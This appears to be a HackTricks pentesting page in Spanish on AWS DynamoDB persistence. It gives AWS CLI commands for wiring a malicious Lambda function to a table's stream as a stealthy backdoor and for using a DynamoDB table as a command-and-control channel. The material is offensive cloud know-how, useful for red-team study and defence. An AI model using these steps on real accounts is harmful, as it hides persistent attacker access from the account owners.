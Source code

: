 # AWS - DynamoDB Persistencia

{{#include ../../../../banners/hacktricks-training.md}}

### DynamoDB

Para más información, consulta:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers con Lambda Backdoor

Usando triggers de DynamoDB, un atacante puede crear una **stealthy backdoor** asociando una función Lambda maliciosa a una tabla. La función Lambda puede activarse cuando se añade, modifica o elimina un item, permitiendo al atacante ejecutar código arbitrario dentro de la cuenta AWS.
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
Para mantener la persistencia, el attacker puede crear o modificar elementos en la tabla DynamoDB, lo que activará la Lambda function maliciosa. Esto permite al attacker ejecutar código dentro de la cuenta AWS sin interacción directa con la Lambda function.

### DynamoDB as a C2 Channel

An attacker puede usar una tabla DynamoDB como un **command and control (C2) channel** creando elementos que contengan commands y usando compromised instances o Lambda functions para obtener y ejecutar esos commands.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Las instancias comprometidas o Lambda functions pueden consultar periódicamente la C2 table en busca de nuevos comandos, ejecutarlos y, opcionalmente, reportar los resultados de vuelta a la C2 table. Esto permite al atacante mantener persistencia y control sobre los recursos comprometidos.

{{#include ../../../../banners/hacktricks-training.md}}
